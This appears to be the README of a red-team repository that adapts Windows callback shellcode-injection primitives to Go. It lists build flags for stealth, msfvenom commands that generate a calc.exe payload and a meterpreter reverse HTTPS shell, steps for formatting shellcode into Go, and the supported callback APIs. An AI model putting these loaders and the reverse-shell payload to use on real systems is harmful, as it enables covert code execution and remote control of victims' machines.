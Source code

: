 # Golang-Callback-Injection
## Disclaimer
This repository presents a collection of already well-documented injection primitives, adapted to Go. The PoCs are not meant to evade competent AVs out-of-the-box as they have been around for quite some time now, but could be combined along with other techniques.

## Build
```
GOOS=windows go build -o DrawState.exe callbacks/DrawStateW.go

# Additional flags for opsec considerations
-ldflags -H=windowsgui  (do not pop any window)
-trimpath               (remove local path from final PE)
-ldflags="-s -w"        (shrink executable)
```
## Payload generation
The `hex` output of msfvenom was used as there was no golang buffer formatting
```
msfvenom --platform windows -a x64  -p windows/x64/exec CMD=calc.exe -f hex -o calc.hex
```
However these few lines allow to format manually 
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=443 -f raw -o meterpreter.bin
cat meterpreter.bin | xxd -p | sed 's/.\{2\}/0x&, /g' > meterpreter.gohex

# Then in the template
var shellcode = []byte{
  // insert formatted shellcode here
}
```



## Callback injection primitives
The following callback injection primitives have been pushed.
```
- DrawState
- EnumChildWindows
- EnumDisplayMonitors
- EnumDateFormats
- EnumDesktops
- GrayString
- EnumFonts
- LineDDA              
- EnumFontFamilies
- CallWindowProc
- EnumTimeFormats
- EnumWindows
- EnumDesktopWindows
- EnumThreadWindows
- EnumSystemLocales
- EnumSystemGeoID
```

## Untested callback injection primitives 
```
- EnumSystemLanguageGroups
- EnumUILanguages
- EnumSystemCodePages
```
Many more are presented in the pentester's promiscuous notebook ([https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection))


### References
- [http://ropgadget.com/posts/abusing_win_functions.html](http://ropgadget.com/posts/abusing_win_functions.html)
- [https://github.com/Ne0nd0g/go-shellcode](https://github.com/Ne0nd0g/go-shellcode)
- [https://github.com/aahmad097/AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
- [https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection](https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection)
- [https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)

### Relevant resources
- [https://www.pinvoke.net](https://www.pinvoke.net)
- [https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection)


<meta name="author" content="Dreamkinn">
<meta name="description" content="Golang-Callback-Injection">
<meta name="keywords" content="injection, callback, golang, shellcode, technique">
